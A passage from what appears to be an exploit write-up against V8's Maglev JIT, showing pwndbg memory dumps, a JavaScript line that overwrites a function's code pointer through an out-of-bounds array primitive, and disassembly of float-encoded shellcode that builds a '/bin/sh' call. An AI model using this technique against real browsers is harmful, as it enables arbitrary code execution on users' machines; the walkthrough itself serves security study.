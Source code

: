 ```bash
pwndbg> x/50wx 0x3371000421d1-1
0x3371000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
0x3371000421e0:	0x0000117d	0x00207cad	0x00000901	0x0000000a
0x3371000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0x337100042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x337100042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x337100042220:	0x00000000	0x40504000	0x00000000	0x40508000
0x337100042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x337100042240:	(0x001a0921)	0x00000002	0x0000117d	0x00207cd9
0x337100042250:	0x00000901	0x00000006	0x00000000	0x40504000
0x337100042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
...
```

We can see the address of code above. From there through `OobDblArr2[0]`, we access `codeAddr + 0x10` to get Maglev address.

```bash
pwndbg> x/20wx 0x344b001a0921-1
0x344b001a0920:	0x00000d91	0x001a0889	0x00000f61	0x606cda31
0x344b001a0930:	(0x606cda40	0x00005557)	0x000000ac	0x000002e8
0x344b001a0940:	0x00000028	0x00000000	0xffffffff	0x00000028
0x344b001a0950:	0x00000028	0x00000028	0x0000ffff	0x000009a1
0x344b001a0960:	0x0000b270	0x00000000	0xc84003ff	0x0018e705
```

We can see at `codeAddr + 0x10`, 0x5557606cda40 is the address of maglev code

```js
  write(codeAddr + 0x8, maglevAddr[0] + 0x80 + 2, maglevAddr[1], dblOffset);
  func();
```

Next, we write the 64-bit maglev address (it is address of glibc heap) to `codeAddr + 0x10` which is the address of JIT compiled code for our `func`. We do `maglevAddr[0] + 0x80` because that is where our `func` code containing floating point encoded shellcode resides.

```bash
pwndbg> x/100i 0x5557606cda40
0x5557606cda40:	mov    ebx,DWORD PTR [rcx-0xc]
0x5557606cda43:	add    rbx,r14
0x5557606cda46:	test   DWORD PTR [rbx+0x17],0x20000000
0x5557606cda4d:	jne    0x5557006dff40 <Builtins_CompileLazyDeoptimizedCode>
0x5557606cda53:	movabs r9,0x344b0019c3a9
0x5557606cda5d:	movzx  ecx,WORD PTR [r9+0xd]
0x5557606cda62:	test   cl,0x2e
0x5557606cda65:	jne    0x5557606cdb95
0x5557606cda6b:	push   rbp
0x5557606cda6c:	mov    rbp,rsp
0x5557606cda6f:	push   rsi
...
...
0x5557606cdac0:	movabs r10,0xceb580068732f68
0x5557606cdaca:	vmovq  xmm0,r10
0x5557606cdacf:	vmovsd QWORD PTR [rdi+0x7],xmm0
0x5557606cdad4:	movabs r10,0xceb5a6e69622f68
0x5557606cdade:	vmovq  xmm0,r10
0x5557606cdae3:	vmovsd QWORD PTR [rdi+0xf],xmm0
0x5557606cdae8:	movabs r10,0xcebf63120e0c148
0x5557606cdaf2:	vmovq  xmm0,r10
0x5557606cdaf7:	vmovsd QWORD PTR [rdi+0x17],xmm0
0x5557606cdafc:	movabs r10,0xceb50d231d00148
0x5557606cdb06:	vmovq  xmm0,r10
0x5557606cdb0b:	vmovsd QWORD PTR [rdi+0x1f],xmm0
0x5557606cdb10:	movabs r10,0x50f583b6ae78948
0x5557606cdb1a:	vmovq  xmm0,r10
0x5557606cdb1f:	vmovsd QWORD PTR [rdi+0x27],xmm0
```